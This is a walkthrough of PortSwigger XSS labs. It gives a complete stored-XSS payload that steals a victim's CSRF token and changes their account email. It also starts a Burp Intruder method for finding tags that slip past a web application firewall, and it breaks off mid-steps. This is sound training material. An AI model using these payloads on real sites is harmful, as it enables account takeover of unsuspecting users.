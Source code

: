 ## Exploiting XSS to perform CSRF
Reference: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf


### Quick Solution
As stated in the description of the lab there is an XSS vulnerability in the comments section. This vulnerability can be leveraged to perform a CSRF attack and change the email address of the victim. Payload in the next section.


### Solution
1. Log in using the credentials provided. On your user account page, notice the function for updating your email address.
2. If you view the source for the page, you'll see the following information:
 - You need to issue a POST request to ``/my-account/change-email``, with a parameter called ``email``.
 - There's an anti-CSRF token in a hidden input called token.
This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.
3. Submit the following payload in a blog comment:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
This will make anyone who views the comment issue a POST request to change their email address to ``test@test.com``.

## Reflected XSS into HTML context with most tags and attributes blocked
Reference: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked


### Quick Solution
There is a *WAF* to protect the website from XSS. This firewall blocks HTML tags in the search functionality. The easiest way to reach the solution is to test every tag in the *cheatsheet* and see which one works. Payload in the next section.


### Solution
1. Inject a standard XSS vector, such as: ``<img src=1 onerror=print()>``
2. Observe that this gets blocked. In the next few steps, we'll use use Burp Intruder to test which tags and attributes are being blocked.
3. With your browser proxying traffic through Burp Suite, use the search function in the lab. Send the resulting request to Burp Intruder.
4. In Burp Intruder, in the Positions tab, click "Clear §". Replace the value of the search term with: ``<>``
5. Place the cursor between the angle brackets and click "Add §" twice, to create a payload position. The value of the search term should now look like: ``<§§>``
6. Visit the XSS cheat sheet and click "Copy tags to clipboard".
7. In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".